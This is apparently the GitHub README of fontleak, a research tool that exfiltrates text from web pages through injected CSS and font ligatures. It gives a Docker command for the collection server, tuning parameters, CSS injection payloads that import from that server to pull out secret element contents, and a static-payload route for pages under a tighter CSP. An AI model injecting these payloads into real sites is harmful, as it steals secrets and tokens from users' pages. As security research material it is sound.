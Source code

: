 [![License](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/adrgs/fontleak)](https://github.com/adrgs/fontleak/releases)
[![GitHub stars](https://img.shields.io/github/stars/adrgs/fontleak)](https://github.com/adrgs/fontleak/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/adrgs/fontleak)](https://github.com/adrgs/fontleak/network/members)
[![GitHub contributors](https://img.shields.io/github/contributors/adrgs/fontleak)](https://github.com/adrgs/fontleak/graphs/contributors)
[![Follow @adragos_](https://img.shields.io/twitter/follow/adragos_?style=social)](https://twitter.com/adragos_)

<p align="center">
  <img width="400" alt="fontleak logo" src="https://github.com/user-attachments/assets/69d9b715-e9fc-4bc6-8e0c-b4126f44434e" />
</p>

# fontleak

Fast exfiltration of text using CSS and Ligatures. For a detailed technical explanation, check out my [blog post](https://adragos.ro/fontleak).

## Getting Started

#### Using Docker

You can quickly get started with fontleak using Docker:

```bash
# Run the container
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 adrgs/fontleak
```

Set the `BASE_URL` environment variable to the public URL where the site will be accessible.

> This will only setup a basic HTTP/1.1 server. Use a reverse proxy like Caddy for TLS and HTTP/2 or HTTP/3.


## Using fontleak

The fontleak URL accepts several parameters to customize its behavior:

#### Parameters
- `selector`: CSS selector that matches exactly one element in the target page. default: env `SELECTOR` / `script:first-of-type`
- `attr`: Attribute to exfiltrate. default: env `ATTR` / `textContent`
- `parent`: Parent element of the target element (default: `body`, options: `body` or `head`). default: env `PARENT` / `body`
- `alphabet`: Characters to include in the font (default: env `ALPHABET` / `contents of string.printable`).

### Example Usage

Basic usage:
```html
<style>@import url("http://localhost:4242/");</style>
```

Custom selector, parent, and alphabet:
```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> **⚠️ Warning:** The CSS selector must match exactly one element in the target page. If the selector matches multiple elements or no elements, fontleak will fail to exfiltrate the text.

## Static payload

By default, fontleak will use [sequential import chaining](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) to efficiently exfiltrate text. But it's not always the case that the target page CSP allows this. 

In this case, you can use the `/static` endpoint to generate a static CSS payload that only requires lax CSP for `img-src` and `font-src`.

```bash
wget http://localhost:4242/static -O payload.css
```

Which takes these additional parameters:
- `length`: Length of the payload. default: env `LENGTH` / `100`
- `browser`: Browser compatibility (options: `all`, `chrome`, `firefox`, `safari`). default: env `BROWSER` / `all`

> **⚠️ Warning:** Size of payload.css is directly proportional to the `length` and `alphabet` size. Choosing a target browser can enable certain optimizations.

Instead of unique ids, fontleak will group requests by (IP, User-Agent, Referer) pairs.

## Disclaimer

fontleak is a research project intended for educational and security testing purposes only. The author is not responsible for any misuse of this software. Users are solely responsible for ensuring they have proper authorization before using this tool in any environment. Use at your own risk.